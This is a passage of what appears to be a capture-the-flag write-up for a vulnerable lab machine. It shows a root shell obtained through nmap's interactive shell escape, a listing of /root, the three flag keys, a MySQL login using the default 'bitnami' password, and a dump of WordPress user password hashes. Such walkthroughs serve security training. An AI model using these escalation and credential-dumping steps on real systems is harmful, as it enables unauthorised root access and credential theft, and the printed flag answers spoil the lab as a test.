 Instant root shell!

```
nmap> !/bin/dash
!/bin/dash
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```

Now I could see what was in /root

```
# cd /root
cd /root
# ls -latr
ls -latr
total 32
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwx------  2 root root 4096 Nov 13  2015 .cache
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
drwx------  3 root root 4096 Nov 13  2015 .
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
```

Found the third key:

```
# cat key*
cat key*
04787ddef27c3dee1ee161b21670b4e4
```

I now had all three keys:

1. 073403c8a58a1f80d943455fb30724b9
1. 822c73956184f694993bede3eb39f959
1. 04787ddef27c3dee1ee161b21670b4e4

Wasn't entirely sure what to do with them, but I decided to poke around more. First up, the MySQL instance. MySQL is installed in /opt/bitnami/mysql and the root login for the instance had the default password of "bitnami". Once I logged in, I looked at the contents of the wp_users table:


```
mysql> select user_login,user_pass from wp_users;
select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| mich05654  | $P$BpmKcWWjgC3/UGtj/fO36PsCxYC2E51 |
| elliot     | $P$BHh01ohuhaRcy2EAC6ad//vTQ1eMwe. |
+------------+------------------------------------+
2 rows in set (0.00 sec)
```
